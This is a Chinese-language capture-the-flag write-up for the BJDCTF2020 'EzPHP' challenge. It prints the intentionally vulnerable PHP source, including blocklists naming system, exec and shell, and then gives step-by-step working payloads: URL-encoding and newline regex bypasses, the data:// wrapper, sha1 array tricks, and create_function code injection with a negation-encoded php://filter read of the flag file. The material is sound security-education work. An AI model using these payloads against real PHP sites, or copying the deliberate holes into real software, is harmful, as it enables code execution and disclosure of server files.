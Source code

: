 # [BJDCTF2020]EzPHP

![image-20210526215846428]([BJDCTF2020]EzPHP/image-20210526215846428.png)

## 知识点

- base32解码
- url编码绕过`$_SERVER['QUERY_STRING']`
- %0a绕过正则匹配的字符串
- `POST`传参优先于`GET`传参绕过`$_REQUEST`绕过
- `data伪协议`绕过`file_get_contents`函数
- 数组绕过`sha1()`函数
- create_function()代码注入

## 解题

![image-20210526200832607]([BJDCTF2020]EzPHP/image-20210526200832607.png)

打开网页源代码，看到了这样的注释，base32解码，得到1nD3x.php

![image-20210526200909829]([BJDCTF2020]EzPHP/image-20210526200909829.png)

访问拿到源码

```php
 <?php
highlight_file(__FILE__);
error_reporting(0); 

$file = "1nD3x.php";
$shana = $_GET['shana'];
$passwd = $_GET['passwd'];
$arg = '';
$code = '';

echo "<br /><font color=red><B>This is a very simple challenge and if you solve it I will give you a flag. Good Luck!</B><br></font>";

if($_SERVER) { 
    if ( preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}

if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');

if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 

if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");


if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}

if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

### 0x01 绕过$_SERVER['QUERY_STRING']

```php
if($_SERVER) { 
    if ( preg_match('/shana|debu|aqua|cute|arg|code|flag|system|exec|passwd|ass|eval|sort|shell|ob|start|mail|\$|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|read|inc|info|bin|hex|oct|echo|print|pi|\.|\"|\'|log/i', $_SERVER['QUERY_STRING']))  
        die('You seem to want to do something bad?'); 
}
```

`$_SERVER`函数中`QUERY_STRING`和`REQUEST_URI`区别

```php
1，http://localhost/aaa/ (打开aaa中的index.php)
结果：
$_SERVER['QUERY_STRING'] = "";
$_SERVER['REQUEST_URI']  = "/aaa/";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

2，http://localhost/aaa/?p=222 (附带查询)
结果：
$_SERVER['QUERY_STRING'] = "p=222";
$_SERVER['REQUEST_URI']  = "/aaa/?p=222";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

3，http://localhost/aaa/index.php?p=222&q=333
结果：
$_SERVER['QUERY_STRING'] = "p=222&q=333";
$_SERVER['REQUEST_URI']  = "/aaa/index.php?p=222&q=333";
$_SERVER['SCRIPT_NAME']  = "/aaa/index.php";
$_SERVER['PHP_SELF']    = "/aaa/index.php";

由实例可知：
$_SERVER["QUERY_STRING"] 获取查询 语句，实例中可知，获取的是?后面的值
$_SERVER["REQUEST_URI"]  获取 http://localhost 后面的值，包括/
$_SERVER["SCRIPT_NAME"]  获取当前脚本的路径，如：index.php
$_SERVER["PHP_SELF"]     当前正在执行脚本的文件名
```

`$_SERVER['QUERY_STRING']`不会进行urldecode，`$_GET[]`会，可以用url编码绕过



### 0x02 绕过正则匹配的字符串

```php
if (!preg_match('/http|https/i', $_GET['file'])) {
    if (preg_match('/^aqua_is_cute$/', $_GET['debu']) && $_GET['debu'] !== 'aqua_is_cute') { 
        $file = $_GET["file"]; 
        echo "Neeeeee! Good Job!<br>";
    } 
} else die('fxck you! What do you want to do ?!');
```

`preg_match('/^$')`用换行符%0a绕过即可



### 0x03 $_REQUEST绕过

```php
if($_REQUEST) { 
    foreach($_REQUEST as $value) { 
        if(preg_match('/[a-zA-Z]/i', $value))  
            die('fxck you! I hate English!'); 
    } 
} 
```

`$_REQUEST`绕过，`$_REQUEST`在同时接受GET和POST参数时，POST优先级更高



### 0x04 file_get_contents函数绕过

```php
if (file_get_contents($file) !== 'debu_debu_aqua')
    die("Aqua is the cutest five-year-old child in the world! Isn't it ?<br>");
```

`file_get_contents`函数，用`data`伪协议绕过	`data://text/plain,debu_debu_aqua`



### 0x05 sha1绕过

```php
if ( sha1($shana) === sha1($passwd) && $shana != $passwd ){
    extract($_GET["flag"]);
    echo "Very good! you know my password. But what is flag?<br>";
} else{
    die("fxck you! you don't know my password! And you don't know sha1! why you come here!");
}
```

sha1()函数无法处理数组，`$shana`和`$passwd`都是数组都是`false`

payload：`?file=data://text/plain,debu_debu_aqua&debu=aqua_is_cute &shana[]=1&passwd[]=2`

url编码：`?file=%64%61%74%61%3a%2f%2f%74%65%78%74%2f%70%6c%61%69%6e%2c%64%65%62%75%5f%64%65%62%75%5f%61%71%75%61&%64%65%62%75=%61%71%75%61%5f%69%73%5f%63%75%74%65%0A&%73%68%61%6e%61[]=1&%70%61%73%73%77%64[]=2`

post：`file=1&debu=1`

![image-20210526212013293]([BJDCTF2020]EzPHP/image-20210526212013293.png)



### 0x06 create_function()代码注入

```php
if(preg_match('/^[a-z0-9]*$/isD', $code) || 
preg_match('/fil|cat|more|tail|tac|less|head|nl|tailf|ass|eval|sort|shell|ob|start|mail|\`|\{|\%|x|\&|\$|\*|\||\<|\"|\'|\=|\?|sou|show|cont|high|reverse|flip|rand|scan|chr|local|sess|id|source|arra|head|light|print|echo|read|inc|flag|1f|info|bin|hex|oct|pi|con|rot|input|\.|log|\^/i', $arg) ) { 
    die("<br />Neeeeee~! I have disabled all dangerous functions! You can't get my flag =w="); 
} else { 
    include "flag.php";
    $code('', $arg); 
} ?> 
```

```php
$code('', $arg); 
```

`$code`是create_function,因此这个匿名函数可以是这样：

```php
function y0lo(){
    $arg;
}
```

这里`$arg`是可控点，如果传入`}var_dump(get_defined_vars);//`

就会变成

```php
function y0lo(){
    }var_dump(get_defined_vars);//}
```

payload：`flag['code']=create_function&flag['arg']=}var_dump(get_defined_vars);/* `

url编码：`%66%6c%61%67[%63%6f%64%65]=create_function&%66%6c%61%67[%61%72%67]=}var_dump(get_defined_vars());// `

![image-20210526214251936]([BJDCTF2020]EzPHP/image-20210526214251936.png)

flag并不在这个文件里，而是在`rea1fl4g.php`

- 过滤了 include 还能用 require

- 过滤了引号，可以使用那些参数可以不加引号的函数，require() 代替 require
  " "
- 过滤了 flag，可以 base64 编码。其他过滤的不用便是

利用php伪协议`php:*//filter/convert.base64-encode/resource=rea1fl4g.php* `

然后取反绕过正则

```php
<?php

$s = 'php://filter/convert.base64-encode/resource=rea1fl4g.php';
echo urlencode(~$s);
?>
```



payload：`}require(~%8F%97%8F%C5%D0%D0%99%96%93%8B%9A%8D%D0%9C%90%91%89%9A%8D%8B%D1%9D%9E%8C%9A%C9%CB%D2%9A%91%9C%90%9B%9A%D0%8D%9A%8C%90%8A%8D%9C%9A%C2%8D%9A%9E%CE%99%93%CB%98%D1%8F%97%8F);//`

![image-20210526215815785]([BJDCTF2020]EzPHP/image-20210526215815785.png)

![image-20210526215825931]([BJDCTF2020]EzPHP/image-20210526215825931.png)